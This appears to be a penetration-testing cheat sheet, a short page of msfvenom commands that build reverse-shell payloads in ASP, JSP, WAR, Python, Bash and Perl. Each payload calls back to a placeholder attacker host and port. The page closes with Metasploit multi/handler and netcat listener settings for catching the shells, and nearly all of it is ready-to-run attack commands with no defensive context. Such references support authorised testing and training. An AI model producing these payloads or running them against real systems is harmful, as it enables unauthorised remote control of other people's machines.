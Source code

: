 ### ASP

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py
```

### Bash

```
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh
```

### Perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl
```

### Listener

#### Metasploit

```
use exploit/multi/handler
set PAYLOAD <PAYLOAD>
set LHOST <LHOST>
set LPORT <LPORT>
set ExitOnSession false
exploit -j -z
```

#### Netcat

```
nc -lvp <PORT>
```

------
